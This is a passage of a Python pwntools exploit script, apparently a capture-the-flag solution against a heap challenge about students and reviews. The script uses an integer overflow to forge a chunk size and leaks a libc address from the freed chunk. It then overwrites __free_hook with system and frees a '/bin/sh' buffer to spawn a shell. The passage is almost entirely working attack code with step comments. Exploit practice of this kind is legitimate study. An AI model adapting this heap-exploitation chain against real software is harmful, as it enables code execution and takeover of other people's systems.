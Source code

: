 ```python
change_role(1)
change_sid(4)
check_review(0x39 + 0x50)
chunk_addr[4] += 0x200

### Step 3: give student 6 reward to change the chunk size of student 6 to 0x100 more
change_role(1)
change_sid(6)
pray()

change_role(0)
give_score()	# int overflow

change_role(1)
change_sid(6)
check_review(0x48 + 0x100 + 1)

### Step 4: delete student 6 to free the chunk with fake size: 0x500
change_role(0)
call_parent(6)

### Step 5: read the comment of student 5 to get and calculate the libc address
change_role(1)
change_sid(5)

io.sendlineafter(b'choice>> ', b'2')
io.recvuntil(b'here is the review:\n')
main_arena = u64(io.recv(6) + b'\x00\x00') - 96
libc_base = main_arena - (libc.symbols['__malloc_hook'] + 0x10)
sys_addr = libc_base + libc.symbols['system']		# system address got
malloc_hook = libc_base + libc.symbols['__malloc_hook']
free_hook = libc_base + libc.symbols['__free_hook']

### Step 6: get student 6 back, now the pointer of student 6 should be in the chunk of student 5
change_role(0)
add_student(1)

### Step 7: write comment for student 6: '/bin/sh'
write_review(6, 10, '/bin/sh')

### Step 8: change the address of student 6 to write system address to __free_hook
stu6_writeaddr = chunk_addr[4] + 0x50	# address of student 6 to write to

payload = p64(chunk_addr[4] + 0x30)	# address of student 6 header chunk
payload += p64(0) * 4
payload += p64(0x21)	# size of student 6 header chunk
payload += p64(1)
payload += p64(free_hook)	# change the write address of student 6 to __free_hook
write_review(5, 0, payload, bytes=True)

### Step 9: write system address to __free_hook
write_review(6, 0, p64(sys_addr), bytes=True)

### Step 10: change the address of student 6 back to buffer string '/bin/sh'
payload = p64(chunk_addr[4] + 0x30)	# address of student 6 header chunk
payload += p64(0) * 4
payload += p64(0x21)	# size of student 6 header chunk
payload += p64(1)
payload += p64(stu6_writeaddr)
write_review(5, 0, payload, bytes=True)

### Step 11: delete student 6, getshell
change_role(0)
```